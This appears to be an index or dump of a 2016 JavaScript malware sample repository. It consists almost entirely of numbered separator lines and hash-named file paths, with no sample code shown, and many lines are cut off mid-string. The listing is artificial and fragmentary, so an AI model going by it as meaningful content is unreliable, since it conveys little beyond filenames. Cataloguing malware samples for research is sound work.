javascript-malware-collection-master\2016\20160629\20160629_b7b6e1eba404914722c2e8e3e5228ab4.js
=========================================57374===========================================
=========================================57375===========================================
javascript-malware-collection-master\2016\20160629\20160629_bb0c9850aaa339c2b357028803a63d8e.js
=========================================57376===========================================
javascript-malware-collection-master\2016\20160629\20160629_bb3a7045fcbb5506bf9a21df638ce62a.js
=========================================57377========================

=========================================57421===========================================
javascript-malware-collection-master\2016\20160629\20160629_daa96efc72fb0a8c311abeb79e4f0f02.js
=========================================57422===========================================
javascript-malware-collection-master\2016\20160629\20160629_dba1a4cef5c6a99c18dd920c7634532c.js
=========================================57423===========================================
javascript-malware-collection-master\2016\20160629\20160629_dc06ee0538252d952eca3cbc56d7936b.js
=========================================57424===========================================
javascript-malware-collection-master\2016\20160629\20160629_dcbcb11c034115b40f742a461e717b41.js
=========================================57425===========================================
javascript-malware-collection-master\2016\20160629\20160629_dce88ea42a75d228be19d2e352ca47b6.js
=========================================57426========================

=========================================57484===========================================
javascript-malware-collection-master\2016\20160629\20160629_fb0c4bdb430613e9d8cebe84b66bd776.js
=========================================57485===========================================
javascript-malware-collection-master\2016\20160629\20160629_fb1676caacab93487aabe74efe4d95c0.js
=========================================57486===========================================
javascript-malware-collection-master\2016\20160629\20160629_fb2360c8058067849161c5b691c65a05.js
=========================================57487===========================================
javascript-malware-collection-master\2016\20160629\20160629_fc02a9ce2cf5b8462e5c1eed9b9dc602.js
=========================================57488===========================================
javascript-malware-collection-master\2016\20160629\20160629_fd55e184de55800d1c7ca59e92fbdad1.js
=========================================57489========================

=========================================57542===========================================
=========================================57543===========================================
=========================================57544===========================================
=========================================57545===========================================
=========================================57546===========================================
=========================================57547===========================================
=========================================57548===========================================
=========================================57549===========================================
=========================================57550===========================================
=========================================57551===========================================
=========================================57552===========================================
==========

=========================================57634===========================================
=========================================57635===========================================
=========================================57636===========================================
=========================================57637===========================================
=========================================57638===========================================
=========================================57639===========================================
=========================================57640===========================================
=========================================57641===========================================
=========================================57642===========================================
=========================================57643===========================================
=========================================57644===========================================
==========

=========================================57726===========================================
=========================================57727===========================================
=========================================57728===========================================
=========================================57729===========================================
=========================================57730===========================================
=========================================57731===========================================
=========================================57732===========================================
=========================================57733===========================================
=========================================57734===========================================
=========================================57735===========================================
=========================================57736===========================================
==========

=========================================57818===========================================
=========================================57819===========================================
=========================================57820===========================================
=========================================57821===========================================
=========================================57822===========================================
=========================================57823===========================================
=========================================57824===========================================
=========================================57825===========================================
=========================================57826===========================================
=========================================57827===========================================
=========================================57828===========================================
==========

=========================================57910===========================================
=========================================57911===========================================
=========================================57912===========================================
=========================================57913===========================================
=========================================57914===========================================
=========================================57915===========================================
=========================================57916===========================================
=========================================57917===========================================
=========================================57918===========================================
=========================================57919===========================================
=========================================57920===========================================
==========

=========================================58002===========================================
=========================================58003===========================================
=========================================58004===========================================
=========================================58005===========================================
=========================================58006===========================================
=========================================58007===========================================
=========================================58008===========================================
=========================================58009===========================================
=========================================58010===========================================
=========================================58011===========================================
=========================================58012===========================================
==========

=========================================58092===========================================
=========================================58093===========================================
=========================================58094===========================================
=========================================58095===========================================
=========================================58096===========================================
=========================================58097===========================================
=========================================58098===========================================
=========================================58099===========================================
=========================================58100===========================================
=========================================58101===========================================
=========================================58102===========================================
==========

=========================================58187===========================================
=========================================58188===========================================
=========================================58189===========================================
=========================================58190===========================================
=========================================58191===========================================
=========================================58192===========================================
=========================================58193===========================================
=========================================58194===========================================
=========================================58195===========================================
=========================================58196===========================================
=========================================58197===========================================
==========

=========================================58283===========================================
=========================================58284===========================================
=========================================58285===========================================
=========================================58286===========================================
=========================================58287===========================================
=========================================58288===========================================
=========================================58289===========================================
=========================================58290===========================================
=========================================58291===========================================
=========================================58292===========================================
=========================================58293===========================================
==========

=========================================58377===========================================
=========================================58378===========================================
=========================================58379===========================================
=========================================58380===========================================
=========================================58381===========================================
=========================================58382===========================================
=========================================58383===========================================
=========================================58384===========================================
=========================================58385===========================================
=========================================58386===========================================
=========================================58387===========================================
==========

=========================================58469===========================================
=========================================58470===========================================
=========================================58471===========================================
=========================================58472===========================================
=========================================58473===========================================
=========================================58474===========================================
=========================================58475===========================================
=========================================58476===========================================
=========================================58477===========================================
=========================================58478===========================================
=========================================58479===========================================
==========

=========================================58561===========================================
=========================================58562===========================================
=========================================58563===========================================
=========================================58564===========================================
=========================================58565===========================================
=========================================58566===========================================
=========================================58567===========================================
=========================================58568===========================================
=========================================58569===========================================
=========================================58570===========================================
=========================================58571===========================================
==========

=========================================58653===========================================
=========================================58654===========================================
=========================================58655===========================================
=========================================58656===========================================
=========================================58657===========================================
=========================================58658===========================================
=========================================58659===========================================
=========================================58660===========================================
=========================================58661===========================================
=========================================58662===========================================
=========================================58663===========================================
==========

=========================================58745===========================================
=========================================58746===========================================
=========================================58747===========================================
=========================================58748===========================================
=========================================58749===========================================
=========================================58750===========================================
=========================================58751===========================================
=========================================58752===========================================
=========================================58753===========================================
=========================================58754===========================================
=========================================58755===========================================
==========

=========================================58837===========================================
=========================================58838===========================================
=========================================58839===========================================
=========================================58840===========================================
=========================================58841===========================================
=========================================58842===========================================
=========================================58843===========================================
=========================================58844===========================================
=========================================58845===========================================
=========================================58846===========================================
=========================================58847===========================================
==========

=========================================58929===========================================
=========================================58930===========================================
=========================================58931===========================================
=========================================58932===========================================
=========================================58933===========================================
=========================================58934===========================================
=========================================58935===========================================
=========================================58936===========================================
=========================================58937===========================================
=========================================58938===========================================
=========================================58939===========================================
==========

=========================================59021===========================================
=========================================59022===========================================
=========================================59023===========================================
=========================================59024===========================================
=========================================59025===========================================
=========================================59026===========================================
=========================================59027===========================================
=========================================59028===========================================
=========================================59029===========================================
=========================================59030===========================================
=========================================59031===========================================
==========

=========================================59113===========================================
=========================================59114===========================================
=========================================59115===========================================
=========================================59116===========================================
=========================================59117===========================================
=========================================59118===========================================
=========================================59119===========================================
=========================================59120===========================================
=========================================59121===========================================
=========================================59122===========================================
=========================================59123===========================================
==========

=========================================59205===========================================
=========================================59206===========================================
=========================================59207===========================================
=========================================59208===========================================
=========================================59209===========================================
=========================================59210===========================================
=========================================59211===========================================
=========================================59212===========================================
=========================================59213===========================================
=========================================59214===========================================
=========================================59215===========================================
==========

=========================================59297===========================================
=========================================59298===========================================
=========================================59299===========================================
=========================================59300===========================================
=========================================59301===========================================
=========================================59302===========================================
=========================================59303===========================================
=========================================59304===========================================
=========================================59305===========================================
=========================================59306===========================================
=========================================59307===========================================
==========

=========================================59389===========================================
=========================================59390===========================================
=========================================59391===========================================
=========================================59392===========================================
=========================================59393===========================================
=========================================59394===========================================
=========================================59395===========================================
=========================================59396===========================================
=========================================59397===========================================
=========================================59398===========================================
=========================================59399===========================================
==========

=========================================59481===========================================
=========================================59482===========================================
=========================================59483===========================================
=========================================59484===========================================
=========================================59485===========================================
=========================================59486===========================================
=========================================59487===========================================
=========================================59488===========================================
=========================================59489===========================================
=========================================59490===========================================
=========================================59491===========================================
==========

=========================================59573===========================================
=========================================59574===========================================
=========================================59575===========================================
=========================================59576===========================================
=========================================59577===========================================
=========================================59578===========================================
=========================================59579===========================================
=========================================59580===========================================
=========================================59581===========================================
=========================================59582===========================================
=========================================59583===========================================
==========

=========================================59665===========================================
=========================================59666===========================================
=========================================59667===========================================
=========================================59668===========================================
=========================================59669===========================================
=========================================59670===========================================
=========================================59671===========================================
=========================================59672===========================================
=========================================59673===========================================
=========================================59674===========================================
=========================================59675===========================================
==========

=========================================59757===========================================
=========================================59758===========================================
=========================================59759===========================================
=========================================59760===========================================
=========================================59761===========================================
=========================================59762===========================================
=========================================59763===========================================
=========================================59764===========================================
=========================================59765===========================================
=========================================59766===========================================
=========================================59767===========================================
==========

=========================================59849===========================================
=========================================59850===========================================
=========================================59851===========================================
=========================================59852===========================================
=========================================59853===========================================
=========================================59854===========================================
=========================================59855===========================================
=========================================59856===========================================
=========================================59857===========================================
=========================================59858===========================================
=========================================59859===========================================
==========

=========================================59941===========================================
=========================================59942===========================================
=========================================59943===========================================
=========================================59944===========================================
=========================================59945===========================================
=========================================59946===========================================
=========================================59947===========================================
=========================================59948===========================================
=========================================59949===========================================
=========================================59950===========================================
=========================================59951===========================================
==========

=========================================60033===========================================
=========================================60034===========================================
=========================================60035===========================================
=========================================60036===========================================
=========================================60037===========================================
=========================================60038===========================================
=========================================60039===========================================
=========================================60040===========================================
=========================================60041===========================================
=========================================60042===========================================
=========================================60043===========================================
==========

=========================================60125===========================================
=========================================60126===========================================
=========================================60127===========================================
=========================================60128===========================================
=========================================60129===========================================
=========================================60130===========================================
=========================================60131===========================================
=========================================60132===========================================
=========================================60133===========================================
=========================================60134===========================================
=========================================60135===========================================
==========

=========================================60217===========================================
=========================================60218===========================================
=========================================60219===========================================
=========================================60220===========================================
=========================================60221===========================================
=========================================60222===========================================
=========================================60223===========================================
=========================================60224===========================================
=========================================60225===========================================
=========================================60226===========================================
=========================================60227===========================================
==========

=========================================60309===========================================
=========================================60310===========================================
=========================================60311===========================================
=========================================60312===========================================
=========================================60313===========================================
=========================================60314===========================================
=========================================60315===========================================
=========================================60316===========================================
=========================================60317===========================================
=========================================60318===========================================
=========================================60319===========================================
==========

=========================================60401===========================================
=========================================60402===========================================
=========================================60403===========================================
=========================================60404===========================================
=========================================60405===========================================
=========================================60406===========================================
=========================================60407===========================================
=========================================60408===========================================
=========================================60409===========================================
=========================================60410===========================================
=========================================60411===========================================
==========

=========================================60493===========================================
=========================================60494===========================================
=========================================60495===========================================
=========================================60496===========================================
=========================================60497===========================================
=========================================60498===========================================
=========================================60499===========================================
=========================================60500===========================================
=========================================60501===========================================
=========================================60502===========================================
=========================================60503===========================================
==========

=========================================60585===========================================
=========================================60586===========================================
=========================================60587===========================================
=========================================60588===========================================
=========================================60589===========================================
=========================================60590===========================================
=========================================60591===========================================
=========================================60592===========================================
=========================================60593===========================================
=========================================60594===========================================
=========================================60595===========================================
==========

=========================================60677===========================================
=========================================60678===========================================
=========================================60679===========================================
=========================================60680===========================================
=========================================60681===========================================
=========================================60682===========================================
=========================================60683===========================================
=========================================60684===========================================
=========================================60685===========================================
=========================================60686===========================================
=========================================60687===========================================
==========

=========================================60769===========================================
=========================================60770===========================================
=========================================60771===========================================
=========================================60772===========================================
=========================================60773===========================================
=========================================60774===========================================
=========================================60775===========================================
=========================================60776===========================================
=========================================60777===========================================
=========================================60778===========================================
=========================================60779===========================================
==========

=========================================60861===========================================
=========================================60862===========================================
=========================================60863===========================================
=========================================60864===========================================
=========================================60865===========================================
=========================================60866===========================================
=========================================60867===========================================
=========================================60868===========================================
=========================================60869===========================================
=========================================60870===========================================
=========================================60871===========================================
==========

=========================================60953===========================================
=========================================60954===========================================
=========================================60955===========================================
=========================================60956===========================================
=========================================60957===========================================
=========================================60958===========================================
=========================================60959===========================================
=========================================60960===========================================
=========================================60961===========================================
=========================================60962===========================================
=========================================60963===========================================
==========

=========================================61045===========================================
=========================================61046===========================================
=========================================61047===========================================
=========================================61048===========================================
=========================================61049===========================================
=========================================61050===========================================
=========================================61051===========================================
=========================================61052===========================================
=========================================61053===========================================
=========================================61054===========================================
=========================================61055===========================================
==========

=========================================61137===========================================
=========================================61138===========================================
=========================================61139===========================================
=========================================61140===========================================
=========================================61141===========================================
=========================================61142===========================================
=========================================61143===========================================
=========================================61144===========================================
=========================================61145===========================================
=========================================61146===========================================
=========================================61147===========================================
==========

=========================================61229===========================================
=========================================61230===========================================
=========================================61231===========================================
=========================================61232===========================================
=========================================61233===========================================
=========================================61234===========================================
=========================================61235===========================================
=========================================61236===========================================
=========================================61237===========================================
=========================================61238===========================================
=========================================61239===========================================
==========

=========================================61321===========================================
=========================================61322===========================================
=========================================61323===========================================
=========================================61324===========================================
=========================================61325===========================================
=========================================61326===========================================
=========================================61327===========================================
=========================================61328===========================================
=========================================61329===========================================
=========================================61330===========================================
=========================================61331===========================================
==========

=========================================61413===========================================
=========================================61414===========================================
=========================================61415===========================================
=========================================61416===========================================
=========================================61417===========================================
=========================================61418===========================================
=========================================61419===========================================
=========================================61420===========================================
=========================================61421===========================================
=========================================61422===========================================
=========================================61423===========================================
==========

=========================================61506===========================================
=========================================61507===========================================
=========================================61508===========================================
=========================================61509===========================================
=========================================61510===========================================
=========================================61511===========================================
=========================================61512===========================================
=========================================61513===========================================
=========================================61514===========================================
=========================================61515===========================================
=========================================61516===========================================
==========

=========================================61598===========================================
=========================================61599===========================================
=========================================61600===========================================
=========================================61601===========================================
=========================================61602===========================================
=========================================61603===========================================
=========================================61604===========================================
=========================================61605===========================================
=========================================61606===========================================
=========================================61607===========================================
=========================================61608===========================================
==========

=========================================61690===========================================
=========================================61691===========================================
=========================================61692===========================================
=========================================61693===========================================
=========================================61694===========================================
=========================================61695===========================================
=========================================61696===========================================
=========================================61697===========================================
=========================================61698===========================================
=========================================61699===========================================
=========================================61700===========================================
==========

=========================================61782===========================================
=========================================61783===========================================
=========================================61784===========================================
=========================================61785===========================================
=========================================61786===========================================
=========================================61787===========================================
=========================================61788===========================================
=========================================61789===========================================
=========================================61790===========================================
=========================================61791===========================================
=========================================61792===========================================
==========

=========================================61874===========================================
=========================================61875===========================================
=========================================61876===========================================
=========================================61877===========================================
=========================================61878===========================================
=========================================61879===========================================
=========================================61880===========================================
=========================================61881===========================================
=========================================61882===========================================
=========================================61883===========================================
=========================================61884===========================================
==========

=========================================61966===========================================
=========================================61967===========================================
=========================================61968===========================================
=========================================61969===========================================
=========================================61970===========================================
=========================================61971===========================================
=========================================61972===========================================
=========================================61973===========================================
=========================================61974===========================================
=========================================61975===========================================
=========================================61976===========================================
==========

=========================================62058===========================================
=========================================62059===========================================
=========================================62060===========================================
=========================================62061===========================================
=========================================62062===========================================
=========================================62063===========================================
=========================================62064===========================================
=========================================62065===========================================
=========================================62066===========================================
=========================================62067===========================================
=========================================62068===========================================
==========

=========================================62150===========================================
=========================================62151===========================================
=========================================62152===========================================
=========================================62153===========================================
=========================================62154===========================================
=========================================62155===========================================
=========================================62156===========================================
=========================================62157===========================================
=========================================62158===========================================
=========================================62159===========================================
=========================================62160===========================================
==========

=========================================62242===========================================
=========================================62243===========================================
=========================================62244===========================================
=========================================62245===========================================
=========================================62246===========================================
=========================================62247===========================================
=========================================62248===========================================
=========================================62249===========================================
=========================================62250===========================================
=========================================62251===========================================
=========================================62252===========================================
==========

=========================================62334===========================================
=========================================62335===========================================
=========================================62336===========================================
=========================================62337===========================================
=========================================62338===========================================
=========================================62339===========================================
=========================================62340===========================================
=========================================62341===========================================
=========================================62342===========================================
=========================================62343===========================================
=========================================62344===========================================
==========

=========================================62426===========================================
=========================================62427===========================================
=========================================62428===========================================
=========================================62429===========================================
=========================================62430===========================================
=========================================62431===========================================
=========================================62432===========================================
=========================================62433===========================================
=========================================62434===========================================
=========================================62435===========================================
=========================================62436===========================================
==========

=========================================62518===========================================
=========================================62519===========================================
=========================================62520===========================================
=========================================62521===========================================
=========================================62522===========================================
=========================================62523===========================================
=========================================62524===========================================
=========================================62525===========================================
=========================================62526===========================================
=========================================62527===========================================
=========================================62528===========================================
==========

=========================================62610===========================================
=========================================62611===========================================
=========================================62612===========================================
=========================================62613===========================================
=========================================62614===========================================
=========================================62615===========================================
=========================================62616===========================================
=========================================62617===========================================
=========================================62618===========================================
=========================================62619===========================================
=========================================62620===========================================
==========

=========================================62702===========================================
=========================================62703===========================================
=========================================62704===========================================
=========================================62705===========================================
=========================================62706===========================================
=========================================62707===========================================
=========================================62708===========================================
=========================================62709===========================================
=========================================62710===========================================
=========================================62711===========================================
=========================================62712===========================================
==========

=========================================62794===========================================
=========================================62795===========================================
=========================================62796===========================================
=========================================62797===========================================
=========================================62798===========================================
=========================================62799===========================================
=========================================62800===========================================
=========================================62801===========================================
=========================================62802===========================================
=========================================62803===========================================
=========================================62804===========================================
==========

=========================================62886===========================================
=========================================62887===========================================
=========================================62888===========================================
=========================================62889===========================================
=========================================62890===========================================
=========================================62891===========================================
=========================================62892===========================================
=========================================62893===========================================
=========================================62894===========================================
=========================================62895===========================================
=========================================62896===========================================
==========

=========================================62978===========================================
=========================================62979===========================================
=========================================62980===========================================
=========================================62981===========================================
=========================================62982===========================================
=========================================62983===========================================
=========================================62984===========================================
=========================================62985===========================================
=========================================62986===========================================
=========================================62987===========================================
=========================================62988===========================================
==========

=========================================63070===========================================
=========================================63071===========================================
=========================================63072===========================================
=========================================63073===========================================
=========================================63074===========================================
=========================================63075===========================================
=========================================63076===========================================
=========================================63077===========================================
=========================================63078===========================================
=========================================63079===========================================
=========================================63080===========================================
==========

=========================================63162===========================================
=========================================63163===========================================
=========================================63164===========================================
=========================================63165===========================================
=========================================63166===========================================
=========================================63167===========================================
=========================================63168===========================================
=========================================63169===========================================
=========================================63170===========================================
=========================================63171===========================================
=========================================63172===========================================
==========

=========================================63254===========================================
=========================================63255===========================================
=========================================63256===========================================
=========================================63257===========================================
=========================================63258===========================================
=========================================63259===========================================
=========================================63260===========================================
=========================================63261===========================================
=========================================63262===========================================
=========================================63263===========================================
=========================================63264===========================================
==========

=========================================63346===========================================
=========================================63347===========================================
=========================================63348===========================================
=========================================63349===========================================
=========================================63350===========================================
=========================================63351===========================================
=========================================63352===========================================
=========================================63353===========================================
=========================================63354===========================================
=========================================63355===========================================
=========================================63356===========================================
==========

=========================================63435===========================================
=========================================63436===========================================
=========================================63437===========================================
=========================================63438===========================================
=========================================63439===========================================
=========================================63440===========================================
=========================================63441===========================================
=========================================63442===========================================
=========================================63443===========================================
=========================================63444===========================================
=========================================63445===========================================
==========

=========================================63524===========================================
=========================================63525===========================================
=========================================63526===========================================
=========================================63527===========================================
=========================================63528===========================================
=========================================63529===========================================
=========================================63530===========================================
=========================================63531===========================================
=========================================63532===========================================
javascript-malware-collection-master\2016\20160906\20160906_2a8007752534e29a1955591816714f80.js
=========================================63533===========================================
====

=========================================63605===========================================
=========================================63606===========================================
=========================================63607===========================================
=========================================63608===========================================
=========================================63609===========================================
=========================================63610===========================================
=========================================63611===========================================
=========================================63612===========================================
=========================================63613===========================================
javascript-malware-collection-master\2016\20160906\20160906_4ff6b2bccf1e42d9833466e05f6b0c2d.js
=========================================63614===========================================
====

=========================================63689===========================================
=========================================63690===========================================
javascript-malware-collection-master\2016\20160906\20160906_6dde8379338de93174d95745c4aa6f8f.js
=========================================63691===========================================
=========================================63692===========================================
=========================================63693===========================================
=========================================63694===========================================
=========================================63695===========================================
=========================================63696===========================================
=========================================63697===========================================
javascript-malware-collection-master\2016\20160906\20160906_701cdd824f51288ca79ecb30f1e5d276.j

=========================================63770===========================================
=========================================63771===========================================
=========================================63772===========================================
=========================================63773===========================================
=========================================63774===========================================
=========================================63775===========================================
=========================================63776===========================================
=========================================63777===========================================
javascript-malware-collection-master\2016\20160906\20160906_8bd481872bc68cb46b83fb4cf0927c31.js
=========================================63778===========================================
=========================================63779===========================================
java

=========================================63856===========================================
=========================================63857===========================================
=========================================63858===========================================
=========================================63859===========================================
=========================================63860===========================================
=========================================63861===========================================
=========================================63862===========================================
=========================================63863===========================================
=========================================63864===========================================
=========================================63865===========================================
=========================================63866===========================================
javascript

=========================================63944===========================================
=========================================63945===========================================
=========================================63946===========================================
=========================================63947===========================================
javascript-malware-collection-master\2016\20160906\20160906_d13486e5bf57eff6763122c9cc5c26a3.js
=========================================63948===========================================
javascript-malware-collection-master\2016\20160906\20160906_d1434c644bf23f54766888c4edd0316c.js
=========================================63949===========================================
=========================================63950===========================================
=========================================63951===========================================
=========================================63952==========================================

=========================================64023===========================================
=========================================64024===========================================
=========================================64025===========================================
=========================================64026===========================================
=========================================64027===========================================
=========================================64028===========================================
=========================================64029===========================================
=========================================64030===========================================
=========================================64031===========================================
=========================================64032===========================================
=========================================64033===========================================
==========

=========================================64111===========================================
=========================================64112===========================================
=========================================64113===========================================
=========================================64114===========================================
=========================================64115===========================================
=========================================64116===========================================
=========================================64117===========================================
=========================================64118===========================================
=========================================64119===========================================
=========================================64120===========================================
=========================================64121===========================================
==========

=========================================64203===========================================
=========================================64204===========================================
=========================================64205===========================================
=========================================64206===========================================
=========================================64207===========================================
=========================================64208===========================================
=========================================64209===========================================
=========================================64210===========================================
=========================================64211===========================================
=========================================64212===========================================
=========================================64213===========================================
==========

=========================================64295===========================================
=========================================64296===========================================
=========================================64297===========================================
=========================================64298===========================================
=========================================64299===========================================
=========================================64300===========================================
=========================================64301===========================================
=========================================64302===========================================
=========================================64303===========================================
=========================================64304===========================================
=========================================64305===========================================
==========

=========================================64387===========================================
=========================================64388===========================================
=========================================64389===========================================
=========================================64390===========================================
=========================================64391===========================================
=========================================64392===========================================
=========================================64393===========================================
=========================================64394===========================================
=========================================64395===========================================
=========================================64396===========================================
=========================================64397===========================================
==========

=========================================64479===========================================
=========================================64480===========================================
=========================================64481===========================================
=========================================64482===========================================
=========================================64483===========================================
=========================================64484===========================================
=========================================64485===========================================
=========================================64486===========================================
=========================================64487===========================================
=========================================64488===========================================
=========================================64489===========================================
==========

=========================================64571===========================================
=========================================64572===========================================
=========================================64573===========================================
=========================================64574===========================================
=========================================64575===========================================
=========================================64576===========================================
=========================================64577===========================================
=========================================64578===========================================
=========================================64579===========================================
=========================================64580===========================================
=========================================64581===========================================
==========

=========================================64663===========================================
=========================================64664===========================================
=========================================64665===========================================
=========================================64666===========================================
=========================================64667===========================================
=========================================64668===========================================
=========================================64669===========================================
=========================================64670===========================================
=========================================64671===========================================
=========================================64672===========================================
=========================================64673===========================================
==========

=========================================64755===========================================
=========================================64756===========================================
=========================================64757===========================================
=========================================64758===========================================
=========================================64759===========================================
=========================================64760===========================================
=========================================64761===========================================
=========================================64762===========================================
=========================================64763===========================================
=========================================64764===========================================
=========================================64765===========================================
==========

=========================================64847===========================================
=========================================64848===========================================
=========================================64849===========================================
=========================================64850===========================================
=========================================64851===========================================
=========================================64852===========================================
=========================================64853===========================================
=========================================64854===========================================
=========================================64855===========================================
=========================================64856===========================================
=========================================64857===========================================
==========

=========================================64939===========================================
=========================================64940===========================================
=========================================64941===========================================
=========================================64942===========================================
=========================================64943===========================================
=========================================64944===========================================
=========================================64945===========================================
=========================================64946===========================================
=========================================64947===========================================
=========================================64948===========================================
=========================================64949===========================================
==========

=========================================65032===========================================
=========================================65033===========================================
=========================================65034===========================================
=========================================65035===========================================
=========================================65036===========================================
=========================================65037===========================================
=========================================65038===========================================
=========================================65039===========================================
=========================================65040===========================================
=========================================65041===========================================
=========================================65042===========================================
==========

=========================================65126===========================================
=========================================65127===========================================
=========================================65128===========================================
=========================================65129===========================================
=========================================65130===========================================
=========================================65131===========================================
=========================================65132===========================================
=========================================65133===========================================
=========================================65134===========================================
=========================================65135===========================================
=========================================65136===========================================
==========

=========================================65218===========================================
=========================================65219===========================================
=========================================65220===========================================
=========================================65221===========================================
=========================================65222===========================================
=========================================65223===========================================
=========================================65224===========================================
=========================================65225===========================================
=========================================65226===========================================
=========================================65227===========================================
=========================================65228===========================================
==========

=========================================65311===========================================
=========================================65312===========================================
=========================================65313===========================================
=========================================65314===========================================
=========================================65315===========================================
=========================================65316===========================================
=========================================65317===========================================
=========================================65318===========================================
=========================================65319===========================================
=========================================65320===========================================
=========================================65321===========================================
==========

=========================================65404===========================================
=========================================65405===========================================
=========================================65406===========================================
=========================================65407===========================================
=========================================65408===========================================
=========================================65409===========================================
=========================================65410===========================================
=========================================65411===========================================
=========================================65412===========================================
=========================================65413===========================================
=========================================65414===========================================
==========

=========================================65498===========================================
=========================================65499===========================================
=========================================65500===========================================
=========================================65501===========================================
=========================================65502===========================================
=========================================65503===========================================
=========================================65504===========================================
=========================================65505===========================================
=========================================65506===========================================
=========================================65507===========================================
=========================================65508===========================================
==========

=========================================65581===========================================
javascript-malware-collection-master\2016\20160919\20160919_05c32163fc122b092fd074be6bdcff7f.js
=========================================65582===========================================
javascript-malware-collection-master\2016\20160919\20160919_0608d05d885a9d540feac80fb27c31c5.js
=========================================65583===========================================
javascript-malware-collection-master\2016\20160919\20160919_066b147df11cf060d2d264326672939c.js
=========================================65584===========================================
=========================================65585===========================================
=========================================65586===========================================
=========================================65587===========================================
=========================================65588====================================

=========================================65643===========================================
javascript-malware-collection-master\2016\20160919\20160919_28b6081fffd6a941b76838a1e6abdc2f.js
=========================================65644===========================================
javascript-malware-collection-master\2016\20160919\20160919_292415b22510973ed435703d8857dd2c.js
=========================================65645===========================================
=========================================65646===========================================
javascript-malware-collection-master\2016\20160919\20160919_2aac6871886aaeca277a50ea2dcf3d7c.js
=========================================65647===========================================
javascript-malware-collection-master\2016\20160919\20160919_2ae0b86409d26557b51c7b088d766143.js
=========================================65648===========================================
=========================================65649==============================

=========================================65700===========================================
javascript-malware-collection-master\2016\20160919\20160919_438a212ba452d72916d67efb997f2066.js
=========================================65701===========================================
javascript-malware-collection-master\2016\20160919\20160919_43f0a52efb353f6039119ae4682b5a5a.js
=========================================65702===========================================
=========================================65703===========================================
javascript-malware-collection-master\2016\20160919\20160919_448614918a9fe40965f038e3548864c9.js
=========================================65704===========================================
javascript-malware-collection-master\2016\20160919\20160919_452e083a7ce4b283d050c55d509d9890.js
=========================================65705===========================================
=========================================65706==============================

=========================================65759===========================================
=========================================65760===========================================
javascript-malware-collection-master\2016\20160919\20160919_60cf3ab2b443b65a2f6dffb4cddeb288.js
=========================================65761===========================================
javascript-malware-collection-master\2016\20160919\20160919_60d414923de2be4c89133dc7f6f39f66.js
=========================================65762===========================================
javascript-malware-collection-master\2016\20160919\20160919_616be18985aa995231aed1304d7b4cdb.js
=========================================65763===========================================
javascript-malware-collection-master\2016\20160919\20160919_619672865a5786cfc37a4d8266156a66.js
=========================================65764===========================================
=========================================65765==============================

javascript-malware-collection-master\2016\20160919\20160919_8417852477966e9e0c3ee1449479963b.js
=========================================65822===========================================
=========================================65823===========================================
=========================================65824===========================================
javascript-malware-collection-master\2016\20160919\20160919_85c73732c31b0ca3228a77ccf13d6d13.js
=========================================65825===========================================
=========================================65826===========================================
javascript-malware-collection-master\2016\20160919\20160919_8664aa55879138a20db342c53f56fdf2.js
=========================================65827===========================================
=========================================65828===========================================
=========================================65829====================================

=========================================65880===========================================
=========================================65881===========================================
=========================================65882===========================================
=========================================65883===========================================
javascript-malware-collection-master\2016\20160919\20160919_a5308305478fea3ec37623b61166f059.js
=========================================65884===========================================
=========================================65885===========================================
=========================================65886===========================================
javascript-malware-collection-master\2016\20160919\20160919_a66cd3c7664eeda292b6cde5e86a367b.js
=========================================65887===========================================
=========================================65888==========================================

=========================================65948===========================================
=========================================65949===========================================
javascript-malware-collection-master\2016\20160919\20160919_c9d66dd7b19c40a4221e22be4e499115.js
=========================================65950===========================================
=========================================65951===========================================
=========================================65952===========================================
javascript-malware-collection-master\2016\20160919\20160919_cabe760c9b8e788a2dce8b807554ce65.js
=========================================65953===========================================
=========================================65954===========================================
=========================================65955===========================================
javascript-malware-collection-master\2016\20160919\20160919_cc2aa36b32d2230c033f81ffe1be

javascript-malware-collection-master\2016\20160919\20160919_ea370f7712b65e12792d31ada019923b.js
=========================================66014===========================================
=========================================66015===========================================
=========================================66016===========================================
javascript-malware-collection-master\2016\20160919\20160919_eb2214b68ce429e19e8f8eeeb847dc03.js
=========================================66017===========================================
javascript-malware-collection-master\2016\20160919\20160919_eb6e19469f54b625476c01fa4d84cb01.js
=========================================66018===========================================
=========================================66019===========================================
=========================================66020===========================================
javascript-malware-collection-master\2016\20160919\20160919_ee4fd93791d8eb8c98cb72

javascript-malware-collection-master\2016\20160920\20160920_07ef31791ce5e8e51fbc1e7833845b12.js
=========================================66073===========================================
=========================================66074===========================================
javascript-malware-collection-master\2016\20160920\20160920_08e48b535249aabeb3069aefbc10315c.js
=========================================66075===========================================
=========================================66076===========================================
javascript-malware-collection-master\2016\20160920\20160920_09308ff279ad0d40cb58dd79cf4a771a.js
=========================================66077===========================================
=========================================66078===========================================
=========================================66079===========================================
javascript-malware-collection-master\2016\20160920\20160920_09f3e0b6aa2ffe439361f0

=========================================66136===========================================
=========================================66137===========================================
javascript-malware-collection-master\2016\20160920\20160920_1e547b22c889f66238f327b7fee56e87.js
=========================================66138===========================================
=========================================66139===========================================
=========================================66140===========================================
javascript-malware-collection-master\2016\20160920\20160920_1fe55c7bacdf080ec0d1b1385280ed52.js
=========================================66141===========================================
=========================================66142===========================================
=========================================66143===========================================
javascript-malware-collection-master\2016\20160920\20160920_21612c1dd5ef26138a49028ad082

=========================================66198===========================================
=========================================66199===========================================
=========================================66200===========================================
=========================================66201===========================================
javascript-malware-collection-master\2016\20160920\20160920_341d3895ce7ab26425649df61eef5bad.js
=========================================66202===========================================
javascript-malware-collection-master\2016\20160920\20160920_343f420398bd08f7560ca01fa692f53f.js
=========================================66203===========================================
javascript-malware-collection-master\2016\20160920\20160920_35632a4f568fdcfb4a9a6ada84350ce1.js
=========================================66204===========================================
javascript-malware-collection-master\2016\20160920\20160920_358fa1281bef9a3620fabf

=========================================66261===========================================
javascript-malware-collection-master\2016\20160920\20160920_4d4b3e6b6f9f24a0f278d0e80bfd129e.js
=========================================66262===========================================
javascript-malware-collection-master\2016\20160920\20160920_4d786f5c008f4dbe3805f1078ab76890.js
=========================================66263===========================================
javascript-malware-collection-master\2016\20160920\20160920_4d82443ccfe71b7ba97a1072c0b59fa3.js
=========================================66264===========================================
javascript-malware-collection-master\2016\20160920\20160920_4d92f6864d16ef4736b635aa99f7b9d4.js
=========================================66265===========================================
=========================================66266===========================================
javascript-malware-collection-master\2016\20160920\20160920_4deadbd74cfbf221

javascript-malware-collection-master\2016\20160920\20160920_646d5fe1ba6a06965a1a1ba72842500e.js
=========================================66321===========================================
=========================================66322===========================================
=========================================66323===========================================
=========================================66324===========================================
=========================================66325===========================================
